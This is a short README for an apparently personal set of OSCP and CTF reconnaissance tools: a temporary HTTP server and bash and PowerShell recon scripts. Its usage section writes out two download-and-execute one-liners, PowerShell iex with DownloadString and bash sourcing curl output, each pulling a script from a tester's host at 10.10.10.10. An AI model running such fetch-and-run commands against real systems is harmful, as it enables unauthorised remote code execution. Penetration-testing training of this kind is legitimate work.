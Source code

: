 # OSCP Aux Recon Tools

A small set of tools developed to tackle my OSCP, this set consists of:
Temporary HTTP server and reconnaissance scripts in bash and PowerShell, which work together to facilitate reconnaissance and logistics tasks during machine and CTF resolution.


## Usage

1. Run the http temp server
```bash
./httpTempServ.py
```

2. Load the script

For Windows
```c
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

For Linux
```c
. <(curl 10.10.10.10/recon.sh)
```

3. In the SHORTCUTS dictionary, you can add any aliases you need along with the file path to quickly access them from any directory when the web server is running.